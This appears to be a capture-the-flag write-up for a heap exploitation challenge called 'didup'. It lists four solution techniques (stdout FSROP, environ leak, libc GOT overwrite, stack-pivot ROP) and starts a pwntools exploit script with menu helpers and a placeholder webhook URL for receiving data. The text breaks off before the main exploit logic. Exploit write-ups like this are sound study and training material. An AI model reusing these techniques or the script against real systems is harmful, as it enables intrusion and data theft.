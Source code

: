 1. leak `environ` overriding `_IO_2_1_stdout_` a second time and then build a ROP chain on the stack of the `add_mark` function

2. Angry-FSROP on stdout

3. libc GOT override using a onegadget (not tested)

4. libc GOT override to stack pivot and ROP (basically [this tecnique](https://github.com/n132/Libc-GOT-Hijacking))

## Exploit
```python
#!/usr/bin/env python3
from pwn import *
import time
import requests

exe = ELF("./build/didup_patched") # patched
libc = ELF("./libs/libc.so.6")

context.binary = exe
WEBHOOK = "http://your.webhook".encode()

gdbscript = \
"""
set follow-fork-mode parent
set resolve-heap-via-heuristic force
"""

def conn():
    if args.GDB:
        r = gdb.debug([exe.path], gdbscript=gdbscript)
    elif args.REMOTE:
        r = remote("localhost", 1337)
    else:
        r = process([exe.path])
    return r

r = conn()

def add(idx, mark, desc):
    r.sendlineafter(b">", b"1")
    r.sendlineafter(b">", str(idx).encode())
    if type(mark) == bytes:
        r.sendlineafter(b":", mark)
    else:
        r.sendlineafter(b":", str(mark).encode())
    if desc != b"":
        r.sendafter(b":", desc)

def remove(idx):
    r.sendlineafter(b">", b"2")
    r.sendlineafter(b">", str(idx).encode())

def save(idx, url):
    r.sendlineafter(b">", b"4")
    r.sendlineafter(b">", str(idx).encode())
    r.sendlineafter(b":", url)

def change(idx, mark, desc):
    r.sendlineafter(b">", b"3")
    r.sendlineafter(b">", str(idx).encode())
    if type(mark) == bytes:
        r.sendlineafter(b":", mark)
```